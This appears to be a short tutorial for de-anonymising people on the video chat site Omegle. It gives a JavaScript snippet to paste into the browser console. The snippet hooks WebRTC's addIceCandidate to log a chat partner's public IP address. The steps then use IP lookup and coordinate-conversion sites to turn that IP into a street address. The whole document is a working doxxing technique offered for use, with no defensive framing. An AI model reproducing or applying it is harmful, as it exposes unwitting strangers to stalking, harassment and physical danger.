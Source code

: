 ## WHAT YOU WILL NEED.

### -VPN
### -CHROME BROWSER

#### 1.Turn On The VPN and Go To Omegle.com
#### 2.Rgiht Click And Click Inspect Element
#### 3.Go To Console
#### 4.Tpye This:


`window.oRTCPeerConnection  = window.oRTCPeerConnection || window.RTCPeerConnection`

`window.RTCPeerConnection = function(...args) {`
` const pc = new window.oRTCPeerConnection(...args)`

`pc.oaddIceCandidate = pc.addIceCandidate`

`pc.addIceCandidate = function(iceCandidate, ...rest) {`
` const fields = iceCandidate.candidate.split(' ')`

`if (fields[7] === 'srflx') {`
`console.log('IP Address:', fields[4])`
`}`
`return pc.oaddIceCandidate(iceCandidate, ...rest)`

`}`

`return pc`
`}`

#### 5.Start Video/Text Chat
#### 6.on The Console You Should Se The IPs Of The Users U Chat With.
#### 7.Go To: Tools - Intelligence X { https://intelx.io/ }
#### 8.Type His IP And Click Lookup
#### 9.You Should Get His Latitude &amp; Longitude
#### 10.Go To: GPS Coordinates Converter - Latitude and Longitude Converter 8
#### 11.Enter His Latitude &amp; Longitude
#### 12.Click “Get Address”
#### Boom You Got His Address

### Thank you all for your attention!

### * This Article was written by : muneebwanee (https://muneb.rf.gd)
